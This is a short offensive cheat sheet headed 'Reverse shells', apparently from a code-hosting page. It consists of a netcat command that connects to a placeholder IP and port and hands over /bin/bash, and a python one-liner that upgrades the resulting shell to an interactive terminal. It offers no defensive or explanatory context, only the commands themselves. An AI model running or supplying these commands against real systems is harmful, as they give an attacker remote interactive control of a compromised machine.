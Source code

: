 # Reverse shells
```
nc -e /bin/bash ip port
```

Spawn interactive with python:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```